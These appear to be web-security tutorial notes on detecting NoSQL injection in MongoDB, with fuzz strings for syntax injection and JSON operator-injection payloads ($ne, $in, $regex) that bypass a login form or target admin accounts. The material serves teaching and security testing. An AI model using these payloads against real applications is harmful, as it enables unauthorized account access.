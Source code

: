  There are two different types of NoSQL injection:
 - Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
 - Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

### Lab: Detecting NoSQL injection
https://www.youtube.com/watch?v=xrFZMIwdlFU



## Detecting syntax injection in MongoDB
Consider a shopping application that displays products in different categories. When the user selects the Fizzy drinks category, their browser requests the following URL:
```
https://insecure-website.com/product/lookup?category=fizzy
```
 This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
```
this.category == 'fizzy'
```
To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is: 
```
'"`{
;$Foo}
$Foo \xYZ
```
Use this fuzz string to construct the following attack:
```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

> Note
> 
> NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.  
> In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become:
```
 '\"`{\r;$Foo}\n$Foo \\xYZ\u0000 
```



## NoSQL operator injection
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`. 

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following: 
1. Convert the request method from `GET` to `POST`.
1. Change the `Content-Type` header to `application/json`.
1. Add JSON to the message body.
1. Inject query operators in the JSON.

## Detecting operator injection in MongoDB
 Consider a vulnerable application that accepts a username and password in the body of a `POST` request:
```
{"username":"wiener","password":"peter"}
```
Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection: 
```
{"username":{"$ne":"invalid"},"password":{"peter"}}
```
 If the `$ne` operator is applied, this queries all users where the username is not equal to invalid.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload: 
```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection. 

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example: 
```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### Tip from the lab:
Change the value of the username parameter from `{"$ne":""}` to `{"$regex":"wien.*"}`, then send the request. Notice that you can also log in when using the `$regex` operator.

